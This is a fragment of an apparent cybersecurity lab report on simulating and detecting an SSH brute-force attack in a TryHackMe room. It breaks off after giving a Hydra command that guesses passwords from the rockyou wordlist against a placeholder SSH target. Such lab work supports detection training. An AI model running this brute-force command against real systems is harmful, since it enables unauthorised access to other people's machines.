 \# SSH Brute Force Detection Lab – Technical Report



\## 1. Objective

To simulate and detect an SSH brute force attack on a Linux machine.



\## 2. Lab Environment

\- Platform: TryHackMe ("Brute It" room)

\- Victim: Linux host with SSH exposed

\- Attacker: Kali Linux using Hydra



\## 3. Attack Execution



\*\*Tool:\*\* Hydra  

\*\*Command used:\*\*

```bash

hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://<target-ip>



